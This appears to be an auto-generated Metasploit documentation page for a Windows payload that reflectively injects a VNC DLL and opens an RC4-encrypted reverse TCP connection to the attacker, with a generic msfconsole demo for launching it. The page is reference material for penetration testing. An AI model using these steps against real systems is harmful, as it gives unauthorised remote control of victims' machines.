 ## VNC Server (Reflective Injection), Reverse TCP Stager (RC4 Stage Encryption DNS)

Inject a VNC Dll via a reflective loader (staged). Connect 
back to the attacker


## Module Name
payload/windows/vncinject/reverse_tcp_rc4_dns

## Authors
* sf
* hdm
* skape
* mihi
* RageLtMan


## References
* https://github.com/stephenfewer/ReflectiveDLLInjection
* https://github.com/rapid7/ReflectiveDLLInjection




## Platforms
* win

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/windows/vncinject/reverse_tcp_rc4_dns
msf payload(reverse_tcp_rc4_dns) > show targets
   ... a list of targets ...
msf payload(reverse_tcp_rc4_dns) > set TARGET <target-id>
msf payload(reverse_tcp_rc4_dns) > show options
   ... show and set options ...
msf payload(reverse_tcp_rc4_dns) > run
```
    
    